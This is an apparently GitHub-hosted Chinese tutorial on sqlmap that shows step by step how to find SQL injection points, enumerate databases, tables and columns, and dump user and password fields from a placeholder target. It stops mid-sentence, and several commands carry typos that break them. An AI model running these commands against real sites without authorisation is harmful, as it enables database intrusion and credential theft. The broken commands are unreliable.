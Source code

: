 ## sqlmap
### sqlmap入门
1. 判断是否存在注入点
```
sqlmap -u http://xxx
```
当参数有多个时，需要加双引号
```
sqlmap -u "http://xxx/?id=1&uid=2"
```
2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用
```
salmap -r txt文本
```

存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库
```
sqlmap -u http://xxx/ --dbs
```
2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库
<img src="../pictures/j4ddnt2dp1.png" width="600" />
那么现在查询dkeye数据库中有哪些表  

```
sqlmap -u http://xxx/ -D dkeye --tables
```
3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表
<img src="../pictures/j79q4i3bahf.png" width="200" />
使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```

4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```

获取与数据库用户相关的信息
1. 获取到数据库中的所有用户
```
salmap -u "http://xxx/" --users
```
使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码
```
salmap -u "http://xxx/" --password
``` 
获取到的密码是

